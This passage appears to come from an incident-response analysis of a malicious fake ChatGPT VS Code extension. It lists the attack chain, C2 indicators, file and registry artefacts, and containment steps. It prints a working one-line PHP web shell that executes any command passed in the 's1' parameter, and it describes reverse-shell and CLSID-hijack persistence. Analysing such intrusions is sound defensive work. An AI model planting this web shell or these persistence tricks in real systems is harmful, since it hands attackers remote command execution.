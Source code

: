 ```php
$testc = $_GET['s1']; echo `$testc`;
```

![index.php File changed for additional persistence](images/ReliableThreat-webshell-indexphp.png)

This creates a web shell allowing remote command execution via the `s1` parameter.

---

## Technical Analysis Summary

### Attack Chain

1. **Social Engineering:** User installs fake ChatGPT extension
2. **Trigger:** User types "help" to try the extension
3. **Payload:** Obfuscated JavaScript establishes reverse shell
4. **Persistence 1:** CLSID hijacking targets Recycle Bin
5. **Persistence 2:** Source code modification to allow a Web shell injection in Laravel app

### Sophistication Level: High

**What made this attack sophisticated:**

- **Supply chain compromise** through legitimate marketplace
- **Heavy obfuscation** to evade detection
- **Multiple persistence mechanisms** for redundancy
- **CLSID hijacking** requires deep Windows internals knowledge
- **Strategic target selection** (Recycle Bin = high interaction frequency)

### Key Indicators of Compromise (IOCs)

**Network:**

- 6.tcp.eu.ngrok.io:16587 (VSCode extension C2)
- 18.197.239.5:18854 (RuntimeBroker.exe C2)

**Files:**

- C:\Users\User2.vscode\extensions\0xs1rx58d3v.chatgpt-b0t-0.0.1\extension.js
- C:\Users\Public\temp.exe

**Registry:**

- HKLM\SOFTWARE\Classes\CLSID{645FF040-5081-101B-9F08-00AA002F954E}

---

## Incident Response Actions

### Immediate Containment

1. **Network Isolation:** Block C2 infrastructure:
    - 6.tcp.eu.ngrok.io:16587
    - 18.197.239.5:18854
2. **Process Termination:** Kill malicious RuntimeBroker.exe processes
3. **Extension Removal:** Uninstall 0xs1rx58d3v.chatgpt-b0t extension
